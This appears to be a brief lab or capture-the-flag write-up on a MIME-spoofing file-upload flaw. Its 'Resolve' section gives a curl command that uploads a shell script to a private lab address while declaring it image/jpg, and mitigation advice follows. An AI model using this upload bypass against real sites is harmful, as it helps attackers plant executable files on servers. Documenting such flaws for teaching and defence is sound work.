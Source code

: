# Vulnerability

MIME spoofing is used by attackers to manipulate the MIME (Multipurpose Internet Mail Extensions) type of a file to bypass security controls and potentially execute malicious code.

# Identification

We have a form with an input that allows us to upload files.

# Resolve

open your terminal on do a request<br>
create a script file

```
touch script.sh
```

Use cmd curl

```
curl -X POST -F "uploaded=@/Users/tpinto-m/Desktop/script.sh;type=image/jpg" -F 'Upload=Upload' 'http://10.11.249.210/?page=upload#'
```

# Prevent

- Input Sanitization: Sanitize all user inputs, including file names and content
- Content Validation: Inspect the actual contents of uploaded files, not just the declared MIME type
- File Extension Checks: Verify that file extensions match the expected content type
- Use Framework
- Use secured library

# Resources

https://reqbin.com/req/c-dot4w5a2/curl-post-file
